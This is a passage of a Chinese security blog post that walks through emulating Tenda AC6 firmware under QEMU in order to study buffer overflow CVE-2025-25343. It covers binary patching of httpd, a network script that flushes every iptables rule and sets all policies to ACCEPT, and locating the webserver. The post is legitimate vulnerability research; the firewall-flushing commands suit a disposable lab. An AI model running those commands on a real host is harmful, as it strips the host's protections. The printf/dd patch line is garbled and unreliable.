# Tenda AC6缓冲区溢出漏洞 CVE-2025-25343 浅析-先知社区

> **来源**: https://xz.aliyun.com/news/19003  
> **文章ID**: 19003

---

## 漏洞信息

|  |  |
| --- | --- |
| **漏洞名称** | **Tenda AC6缓冲区溢出漏洞** |
| **漏洞编号** | CVE-2025-25343 |
| **漏洞类型** | 缓冲区溢出漏洞 |
| **威胁等级** | —— |
| **漏洞详情** | Tenda AC6 V15.03.05.16固件在formexeCommand函数中存在缓冲区溢出漏洞。 |
| **影响范围** | —— |
| **固件下载地址** | https://www.tenda.com.cn/material/show/2661 |

**​**

## 环境搭建

前置准备，解压固件，查看文件系统架构，可以看到为 32位的arm小端序。

readelf -h busybox

### image.png

### qemu用户级模拟

#### Method 1

由于用户级模拟不会启动初始化文件，所以我们需要对一些文件手动处理。将webroot\_ro目录下的文件全部复制到webroot中去，使用如下指令（在下面查找 webserver 中有提到）。

cp -rf ./webroot\_ro/\* ./webroot/

接着执行以下指令：

cp $(which qemu-arm-static) ./

sudo chroot ./ ./qemu-arm-static ./bin/httpd

命令解释：

$(which qemu-arm-static)会查找qemu-arm-static的实际路径。复制到固件根目录，是为了后续使用chroot时能用到它；

使用chroot把当前shell的“根目录”切换到./（通常是固件解包目录）。在这个“新根目录”环境下，用./qemu-arm-static这个仿真器去运行./bin/httpd（固件里的httpd服务器），chroot需要root用户执行，sudo用于获取足够的权限。

 执行后发现一直卡在这里，通过动态调试发现在这里进入了死循环。拖进ida进行静态调试，通过关键字符定位找到了该函数。

拖进ida中进行静态调试，通过在Strings查找关键字符Welcome定位找到了该函数。

在ida中搜索字符串定位到sub\_2E158函数

 由于我们使用固件，是虚拟环境，很多网络配置都没有正常配置，所以会引发报错，直接将33行while处和36行if处的判断均patch掉即可。



下面是具体操作：

需要将MOV R3 R0改成MOV R3 #1

 首先进入https://disasm.will.gl/查询汇编码对应的十六进制代码，根据之前查看到的设备cpu架构，将选择框选为Arch：APM、Armv8 32 bit（Aarch32）和Little Endian。

需要将原来的00 30 A0 E1更改为01 30 A0 E3。

进入编辑、进入补丁程序，选择改变字节，根据查到的 16 进制进行更改。

修改完为：

 然后 Edit—Patch program—Apply patches to input file,变动初始可执行程序，形成补丁文档，就完成了patch。



将patch后的httpd在/bin目录中进行替换，并为其添加可执行权限。

#### Method 2

同时，还有另一种方法，通过命令进行更改：



由上面的两个图我们得知，两处需要修改MOV R3,R0为MOV R3,#1

第一处待patch的地址：2E248 [十六进制]

第二处待patch的地址：2E26C [十六进制]

且可知httpd基地址为：0x00008000

打开Windows计算器进行计算偏移量：



偏移量的计算公式如下：

seek = 待patch地址 - 基地址

进制转换：

|  |  |  |  |
| --- | --- | --- | --- |
| 地址[十六进制] | 基地址 [十六进制] | seek[十六进制] | seek[十进制] |
| 2E248 | 8000 | 26248 | 156232 |
| 2E26C | 8000 | 2626C | 156268 |

故使用如下命令修改汇编码：

printf '0 ã' dd of=/bin/httpd bs=1 count=4 conv=notrunc seek=偏移量

编写成名为patch.sh的shell脚本进行执行：



为其赋予可执行权限后，执行./patch.sh即可将while处和if处的判断patch掉。

然后再次执行sudo chroot ./ ./qemu-arm-static ./bin/httpd

#### Problems&SOLN：

#### 若出现下图情况，则是80端口被占用。



sudo netstat -tulpn | grep ':80'#查看80端口，发现端口已被Nginx占用；

sudo systemctl stop nginx #临时停止 Nginx 服务（重启后恢复）

sudo netstat -tulpn | grep ':80'#验证是否停止（应无输出）



完成后再次执行sudo chroot ./ ./qemu-arm-static ./bin/httpd



发现运行时会首先获取br0网卡的信息，所以这里需要创建br0网卡并配置其ip。

sudo brctl addbr br0

sudo ifconfig br0 192.168.29.129/24



再次执行

​



重新启动，发现成功运行，也能够正常获得br0的IP：192.168.29.129，至此，成功登录Tenda AC6的web界面，固件模拟完成。

### qemu系统级模拟

执行以下三个命令，下载一个 arm 架构的内核镜像和文件系统。

wget https://people.debian.org/~aurel32/qemu/armhf/debian\_wheezy\_armhf\_standard.qcow2

wget https://people.debian.org/~aurel32/qemu/armhf/initrd.img-3.2.0-4-vexpress

wget https://people.debian.org/~aurel32/qemu/armhf/vmlinuz-3.2.0-4-vexpress

像用户级模拟一样，我们在Ubuntu创建一个网卡，使得qemu内部可以与Ubuntu进行通信。

新建如下脚本保存为net.sh后运行

|  |
| --- |
| sudo ip tuntap add dev tap0 mode tap  sudo ip link set tap0 up  sudo sysctl -w net.ipv4.ip\_forward=1  sudo iptables -F  sudo iptables -X  sudo iptables -t nat -F  sudo iptables -t nat -X  sudo iptables -t mangle -F  sudo iptables -t mangle -X  sudo iptables -P INPUT ACCEPT  sudo iptables -P FORWARD ACCEPT  sudo iptables -P OUTPUT ACCEPT  sudo iptables -t nat -A POSTROUTING -o ens33 -j MASQUERADE  sudo iptables -I FORWARD 1 -i tap0 -j ACCEPT  sudo iptables -I FORWARD 1 -o tap0 -m state --state RELATED,ESTABLISHED -j ACCEPT  sudo ifconfig tap0 192.168.100.1 netmask 255.255.255.0 |

执行后使用指令 ifconfig ,这里可以看到网卡配置成功了

编写一个qemu-system-arm启动脚本 run.sh并启动

|  |
| --- |
| sudo qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress  -drive if=sd,file=debian\_wheezy\_armhf\_standard.qcow2  -append "root=/dev/mmcblk0p2 console=ttyAMA0"  -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic |

账号密码均为root

接着我们开始配置 qemu虚拟系统中的路由，在 qemu虚拟系统运行：

ifconfig eth0 192.168.100.2 netmask 255.255.255.0

route add default gw 192.168.100.1

在qemu虚拟系统中使用ifconfig命令查看eth0地址是否更改为192.168.100.2

到此，qemu就可以和Ubuntu相互ping通了



在Ubuntu中，先把文件系统squashfs-root进行压缩

tar -czvf squashfs-root.tar squashfs-root

接下来开启一个 http服务以供qemu系统和Ubuntu之间传输文件

python3 -m http.server

在qemu中直接wget下载这个文件，移动到/root目录下

wget http://192.168.100.1:8000/squashfs-root.tar

mv ./squashfs-root.tar /root/



在qemu中root目录中解压文件系统

cd root/

tar -xzvf squashfs-root.tar

​

在用户级模拟步骤中我们知道启动web服务，还需配一个br0网卡

在qemu虚拟机中执行

ip link add name br0 type bridge

ip link set dev br0 up

ip addr add 192.168.100.2/24 dev br0

ifconfig验证配置成功



接着执行如下指令

chroot ./squashfs-root sh

cp -rf webroot\_ro/\* webroot/

./bin/httpd

 成功模拟

## 漏洞挖掘方法

缓冲区溢出漏洞通常是因为应用程序在处理用户输入的数据时，缺乏严格的边界检查，将过长的数据直接复制到预先分配的、固定大小的内存缓冲区中。当输入数据量超过了缓冲区的容量限制，多余的数据就会“溢出”，覆盖相邻的内存区域。这种覆盖可能破坏关键的程序数据结构（如函数返回地址、函数指针、堆管理结构等），导致程序崩溃、执行流程被意外修改（劫持控制流），或者被攻击者精心构造的恶意数据利用以执行任意代码。

### 查找webserver

通常我们需要先去找路由器会暴露在网络上的服务，一般是 webserver，首先我们可以先在 squashfs-root 目录下，搜索文件名中带有“httpd”的文件。

find . -name "\*httpd\*"

因为 webserver 的文件名通常都含有 httpd：

 这里找到bin文件夹中有两个文件带有“httpd”，“dhttpd”可能是开发版的httpd，而 httpd就是我们查找到路由器暴露在网络上的服务 webserver。

接下来分析一下squashfs-root/etc\_ro目录下的启动文件inittab，因为inittab在Linux系统和路由器中定义了系统启动、运行级别、切换时应该启动哪些进程。



发现启动文件开启了/etc\_ro/init.d/rcS



查看/etc\_ro/init.d/rcS 的内容

 这里的 cp -rf ./webroot\_ro/\* ./webroot/就是模拟环境时 qemu 用户级模拟的第一步操作，将 webroot\_ro 目录下的文件全部复制到 webroot 中。

**​**

### 使用emba查找漏洞点

使用 emba 对固件进行扫描

